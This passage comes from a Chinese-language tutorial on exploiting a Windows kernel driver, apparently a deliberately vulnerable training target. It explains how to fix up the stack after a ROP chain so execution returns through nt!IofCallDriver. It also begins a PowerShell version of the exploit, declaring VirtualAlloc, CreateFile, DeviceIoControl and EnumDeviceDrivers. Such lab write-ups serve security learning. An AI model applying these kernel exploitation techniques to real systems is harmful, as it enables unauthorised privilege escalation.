 ```

    std::cout &lt;&lt; "Finish Send IOCTL" &lt;&lt; std::endl;
    HeapFree(GetProcessHeap(), 0, Buffer);
    Buffer = NULL;
`}`
```

不过这里由于引入了ROP，这里需要重新讨论一下栈的地址。<br>
此时`-&gt;`指向的是之后会修改成的内容。由于加入了ROP，导致原先利用的返回值会被覆盖掉，所以这里需要重新调整返回值，让esp在调用exp的地址后，加上**0x1c**，让其跳转到`nt!IofCallDriver`的返回值，从而恢复调用栈。

#### <a class="reference-link" name="Powershell%E7%89%88%E6%9C%AC"></a>Powershell版本

本质上差不多，不过这边使用的是Powershell下的编程:

```
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;

public static class EVD2
`{`
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr VirtualAlloc(
        IntPtr ptrAddress,
        uint dwSize,
        UInt32 AllocationType,
        UInt32 Protext
    );

    [DllImport("kernel32.dll", CharSet=CharSet.Auto, SetLastError=true)]
    public static extern IntPtr CreateFile(
        String lpFileName,
        UInt32 dwDesireAccess,
        UInt32 dwSharingMode,
        IntPtr lpSecurityAttributes,
        UInt32 dwCreationDisposition,
        UInt32 dwFlagsAndAttributes,
        IntPtr hTemplateFile
    );

    [DllImport("Kernel32.dll", SetLastError = true)]
    public static extern bool DeviceIoControl(
        IntPtr hDevice,
        int IoControlCode,
        byte[] InBuffer,
        int nInBufferSize,
        byte[] OutBuffer,
        int nOutBufferSize,
        ref int pBytesReturned,
        IntPtr Overlapped); 

    [DllImport("kernel32.dll")]
    public static extern uint GetLastError();

    [DllImport("psapi")]
    public static extern bool EnumDeviceDrivers(
        [MarshalAs(UnmanagedType.LPArray, ArraySubType = UnmanagedType.U4)] [In][Out] UInt32[] ddAddresses,
        UInt32 arraySizeBytes,
        [MarshalAs(UnmanagedType.U4)] out UInt32 bytesNeeded
    );
```
